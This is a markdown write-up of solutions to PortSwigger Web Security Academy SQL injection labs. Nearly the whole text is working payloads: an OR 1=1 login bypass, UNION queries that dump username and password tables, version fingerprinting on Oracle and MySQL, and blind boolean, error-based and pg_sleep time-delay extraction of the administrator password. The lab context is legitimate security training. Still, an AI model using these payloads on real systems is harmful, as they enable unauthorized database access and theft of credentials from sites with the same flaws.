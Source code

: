 
# Portswigger

### SQL Injection 

##### 1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data 

**payload**: `filter?category=Gifts'+OR+1+=+1--` 

##### 2. SQL injection vulnerability allowing login bypass 

**payload**: `password: ' OR 1=1--` 

##### 3. SQL injection UNION attack, determining the number of coulmns returned by the query 

**payload**: `filter?category=Gifts'+UNION+SELECT+NULL,NULL,NULL--` 

##### 4. SQL injection UNION attack, finding a coulmn containing text 

**payload**: `filter?category=Pets'+UNION+SELECT+NULL,'YK6gYm',NULL--` 

##### 5. SQL injection UNION attack, retrieving data from other tables 

**payload**: `filter?category=Gifts'+UNION+SELECT+username,password+FROM+users--` 
This will give the Password of user admin. 

##### 6. SQL injection UNION attack, retrieving multiple values in a single column 

**payload**: `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--` 
This will give the password for user admin. 

##### 7. SQL injection attack, querying the database type and version on Oracle 

**payload**: `Pets%'+UNION+SELECT+BANNER,+NULL+FROM+v$version--` 
This will leak the database version. 

##### 8. SQL injection attack, querying the database type and version on MySQL and Microsoft 

**payload**: `'+UNION+SELECT+@@version,+NULL#` 

##### 9. SQL injection attack, listing the database contents on non-Oracle databases 

1) `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` will give the username `users_qjqsdw`.  
2) `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_qjqsdw'--  
` will give `password_tmajay` and  `username_mwfumq`  
3) `' UNION SELECT username_mwfumq, password_tmajay FROM users_qjqsdw--` will give the admin creds.  

##### 10. SQL injection attack, listing the database contents on Oracle 

**payload**: `' UNION SELECT USERNAME_MUNMCB, PASSWORD_QYRMVB FROM USERS_VLOTNP--` 

This will give the creds of admin.

#### 11. Blind SQL injection with conditional responses

**payload**: `TrackingId=`  

1) By doing sniping attack using burpsuite `' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`  
By bruteforcing, we get the total length of the password is 20.  
2) By doing cluster attack with 2 payloads `' AND (SELECT SUBSTRING(password,§3§,1) FROM users WHERE username='administrator')='§a§`  

We'll be leaking the admin password.  

#### 12. Blind SQL injection with conditional errors

**payload**: `'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  

By triggering internal server error, we can Identify the true condition  
(Cluster attack)  

#### 13. Blind SQL injection with time delays

**payload**: `||pg_sleep(5)--`  

There will be time delay of 5 seconds for every request that is sent.  

#### 14. Blind SQL injection with time delays and information retrieval

**payload**: `'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,12,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`  

Using the payload used in the last lab, we can find the length of the password and cluster bombing using **payload**, 
will retrive the password of user admin.  

